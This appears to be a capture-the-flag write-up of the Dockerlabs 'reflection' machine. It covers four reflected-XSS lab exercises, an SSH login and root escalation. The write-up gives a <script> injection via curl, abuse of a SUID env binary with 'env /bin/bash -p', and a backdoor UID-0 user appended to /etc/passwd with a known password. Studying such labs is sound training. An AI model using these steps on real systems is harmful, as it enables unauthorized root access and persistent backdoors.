# reflection

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| reflection | El Pingüino de Mario | easy/facil | dockerlabs |

**Summary:** The reflection machine was an educational web security challenge structured around four Cross-Site Scripting (XSS) laboratory exercises followed by a real privilege escalation chain. The web application on port 80 presented four progressively filtered XSS scenarios. Laboratory 1 had no filtering and accepted raw HTML tags directly in a search or input field. Laboratory 2 also lacked sanitisation but required `alert(document.domain)` to demonstrate domain-based impact. Laboratory 3 applied URL encoding, requiring the payload to be URL-encoded before injection. Laboratory 4 reflected the `data` GET parameter directly into the HTML response body without any escaping, confirmed by a curl request showing the raw `<script>` tag rendered into the `#output` div. After completing the four labs, SSH access was established as `balu` using credentials available from the application context. A SUID binary search immediately identified `/usr/bin/env` with the SUID bit set, a direct escalation path. Running `env /bin/bash -p` spawned a shell with `euid=0(root)` while retaining the original UID. From that elevated shell, `openssl passwd` was used to generate a password hash for the string `rooted`, and a new root-equivalent entry `r00t` was appended to `/etc/passwd`. A final `su - r00t` with the password `rooted` produced a clean root session.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/reflection]
└─$ sudo bash auto_deploy.sh reflection.tar 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/reflection]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-31 19:50 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 89:6c:a5:af:d5:e2:83:6c:f9:87:33:44:0f:78:48:3a (ECDSA)
|_  256 65:32:42:95:ca:d0:53:bb:28:a5:15:4a:9c:14:64:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Laboratorio de Cross-Site Scripting (XSS)
MAC Address: 42:78:29:A0:87:14 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.73 seconds
```

The scan revealed SSH on port 22 and Apache on port 80 titled "Laboratorio de Cross-Site Scripting (XSS)". The web application presented four XSS challenge scenarios as learning exercises.

---

## Initial Access

### XSS Laboratories

**3. Inspecting the Web Application**

The web application presented four XSS laboratories designed to teach different injection and bypass techniques.



**4. Laboratory 1: Unfiltered Reflected XSS**

Laboratory 1 applied no HTML filtering. The input was reflected directly into the page. The payload `` was injected without modification.



Source code of laboratory 1:



Payload used: ``



**5. Laboratory 2: Reflected XSS with Domain Disclosure**

Laboratory 2 similarly lacked sanitisation. The exercise required demonstrating access to `document.domain` to show the domain context of the reflected script execution.



Source code of laboratory 2:



Payload used: ``



**6. Laboratory 3: URL-Encoded XSS Bypass**

Laboratory 3 applied a filter that blocked raw angle brackets in the input. Providing the payload with URL-encoded characters bypassed the filter, as the server decoded the value before reflecting it into the page.



Source code of laboratory 3:



Payload used: ``



**7. Laboratory 4: GET Parameter Reflection**

Laboratory 4 reflected the `data` GET parameter directly into the HTML response body inside a `#output` div with no escaping. A curl request with a test value confirmed the reflection behaviour, and a second request with a `<script>` payload confirmed unsanitised injection.



Confirming the reflection with a test value:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/reflection]
└─$ curl -s "http://172.17.0.2/laboratorio4/?data=TEST123"
<!DOCTYPE html>
<html lang="es">
<head>
  <meta charset="UTF-8">
  <title>Laboratorio de XSS Basado en Parámetros GET</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      background: linear-gradient(to right, #000000, #330000);
      color: #ff3333;
      margin: 0;
      padding: 0;
      display: flex;
      justify-content: center;
      align-items: center;
      min-height: 100vh;
    }
    .container {
      background: rgba(80, 0, 0, 0.8);
      border-radius: 10px;
      box-shadow: 0 4px 15px rgba(255, 0, 0, 0.3);
      width: 90%;
      max-width: 600px;
      padding: 20px;
      text-align: center;
    }
    h1 {
      color: #ff6666;
      margin-bottom: 10px;
      font-size: 2rem;
    }
    .reflection {
      margin-top: 30px;
      background: #330000;
      border-radius: 5px;
      padding: 15px;
      color: #fff;
      overflow-wrap: break-word;
    }
    .reflection h2 {
      margin-top: 0;
      font-size: 1.3rem;
      color: #ff9999;
    }
  </style>
</head>
<body>
  <div class="container">
    <h1>Laboratorio de XSS Basado en Parámetros GET</h1>
    <p>
      Introduce un parámetro <code>?data=</code> en la URL para reflejar su contenido en la página.
    </p>
    <div class="reflection">
      <h2>Contenido Reflejado:</h2>
      <div id="output">
        TEST123      </div>
    </div>
  </div>
</body>
</html>
```

Confirming unsanitised script injection:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/reflection]
└─$ curl -s "http://172.17.0.2/laboratorio4/?data=<script>alert(1)</script>" | grep -A2 "output"
      <div id="output">
        <script>alert(1)</script>      </div>
    </div>
```



All four laboratory challenges were completed. The credential for SSH access was available from the application context.



### SSH Access as balu

**8. Logging in via SSH**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/reflection]
└─$ ssh balu@$ip
balu@172.17.0.2's password: 
Linux 2e6616ce3795 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
balu@2e6616ce3795:~$ id;whoami;hostname
uid=1000(balu) gid=1000(balu) groups=1000(balu),100(users)
balu
2e6616ce3795
```

---

## Privilege Escalation

### SUID env Binary and /etc/passwd Injection

**9. Finding SUID Binaries**

A filesystem-wide SUID search was performed immediately upon gaining a foothold.

```bash
balu@2e6616ce3795:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-- 1 root messagebus 51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 653888 Jun 22  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 52880 Mar 23  2023 /usr/bin/chsh
-rwsr-xr-x 1 root root 35128 Oct 18  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 72000 Oct 18  2024 /usr/bin/su
-rwsr-xr-x 1 root root 59704 Oct 18  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 48896 Mar 23  2023 /usr/bin/newgrp
-rwsr-xr-x 1 root root 48536 Sep 20  2022 /usr/bin/env
-rwsr-xr-x 1 root root 88496 Mar 23  2023 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68248 Mar 23  2023 /usr/bin/passwd
-rwsr-xr-x 1 root root 62672 Mar 23  2023 /usr/bin/chfn
-rwsr-xr-x 1 root root 281624 Jun 27  2023 /usr/bin/sudo
```

`/usr/bin/env` carried the SUID bit. Running `env /bin/bash -p` launches bash in privileged mode, preserving the effective UID inherited from the SUID binary — which is root.

**10. Spawning a Privileged Shell via SUID env**

```bash
balu@2e6616ce3795:~$ env /bin/bash -p
bash-5.2# id
uid=1000(balu) gid=1000(balu) euid=0(root) groups=1000(balu),100(users)
```

The shell ran with `euid=0(root)`, granting full write access to protected files including `/etc/passwd`.

**11. Injecting a Root-Equivalent User via /etc/passwd**

`openssl passwd` was used to generate a crypt-compatible hash for the password `rooted`. The resulting hash was then used to craft a new `/etc/passwd` entry for a user named `r00t` with UID 0 and GID 0, appended to the file using the elevated shell's write permissions.

```bash
bash-5.2# openssl passwd rooted
$1$aVMa1VFV$xcV8gEI9/sS/ObkpIzuaM/
bash-5.2# echo 'r00t:$1$aVMa1VFV$xcV8gEI9/sS/ObkpIzuaM/:0:0:root:/root:/bin/bash' >> /etc/passwd
bash-5.2# tail -1 /etc/passwd
r00t:$1$aVMa1VFV$xcV8gEI9/sS/ObkpIzuaM/:0:0:root:/root:/bin/bash
```

**12. Escalating to Root via su**

```bash
bash-5.2# su - r00t 
Password: 
root@2e6616ce3795:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
2e6616ce3795
```

Full root access was achieved. `su - r00t` with the password `rooted` produced a clean root session with all groups resolved correctly.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80. The web application presented four XSS laboratory exercises titled "Laboratorio de Cross-Site Scripting (XSS)".
2. **XSS Labs**: Laboratory 1 had no filtering and accepted raw HTML tags. Laboratory 2 also lacked filtering and required `alert(document.domain)`. Laboratory 3 blocked raw angle brackets but was bypassed with URL-encoded characters. Laboratory 4 reflected the `data` GET parameter directly into the HTML body without escaping, confirmed by curl showing the `<script>` tag rendered into the `#output` div.
3. **Exploitation**: SSH access was established as `balu` using credentials recovered from the application context.
4. **SUID Discovery**: A SUID binary search identified `/usr/bin/env` with the SUID bit set. Running `env /bin/bash -p` spawned bash with `euid=0(root)` while retaining the original UID, granting full write access to protected system files.
5. **Privilege Escalation**: `openssl passwd` generated a hash for the password `rooted`. The hash was embedded in a new `/etc/passwd` entry for user `r00t` with UID 0 and GID 0, appended to the file using the elevated shell. `su - r00t` with the password `rooted` produced a fully clean root session.
